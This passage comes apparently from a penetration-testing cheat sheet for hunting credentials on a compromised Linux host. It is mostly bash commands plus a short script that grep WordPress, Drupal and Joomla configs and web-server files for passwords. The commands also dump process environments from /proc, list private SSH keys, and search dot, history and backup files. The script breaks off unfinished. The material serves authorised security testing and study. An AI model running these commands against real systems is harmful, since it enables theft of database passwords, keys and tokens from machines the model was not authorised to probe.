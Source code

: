 ### Specific Application Hunting
```bash
# WordPress
find / -name "wp-config.php" -exec grep -H "DB_" {} \; 2>/dev/null

# Drupal
find / -name "settings.php" -exec grep -H "database\|password" {} \; 2>/dev/null

# Joomla
find / -name "configuration.php" -exec grep -H "password\|user" {} \; 2>/dev/null

# Apache/Nginx configs
grep -r "auth\|password" /etc/apache2/ /etc/nginx/ 2>/dev/null
```

## 🔐 Advanced Credential Discovery

### Environment Variables & Memory
```bash
# Check environment for secrets
env | grep -i "pass\|key\|secret\|token"

# Process environment variables
cat /proc/*/environ 2>/dev/null | tr '\0' '\n' | grep -i "pass\|key\|secret"

# Command line arguments
cat /proc/*/cmdline 2>/dev/null | tr '\0' '\n' | grep -i "pass\|key\|secret"
```

### Hidden & Dot Files
```bash
# Hidden files in user directories
find /home -name ".*" -type f -exec grep -l "password\|key" {} \; 2>/dev/null

# Dot files system-wide
find / -name ".*" -type f -size +0c 2>/dev/null | grep -E "(config|rc|profile)"

# Recently modified files (might contain fresh credentials)
find / -type f -mtime -7 -exec grep -l "password" {} \; 2>/dev/null | head -10
```

## 🚀 Quick Credential Hunt Script

```bash
#!/bin/bash
echo "=== CREDENTIAL HUNTING ==="

echo "[+] WordPress configs:"
find / -name "wp-config.php" -exec grep -H "DB_" {} \; 2>/dev/null

echo "[+] SSH keys:"
find /home -name "id_*" 2>/dev/null | grep -v ".pub"

echo "[+] Config files with passwords:"
grep -r "password" /etc/ 2>/dev/null | head -5

echo "[+] History files:"
find / -name "*history*" -type f 2>/dev/null

echo "[+] Backup files:"
find / -name "*.bak" -o -name "*.backup" 2>/dev/null | head -10

echo "[+] Database files:"
```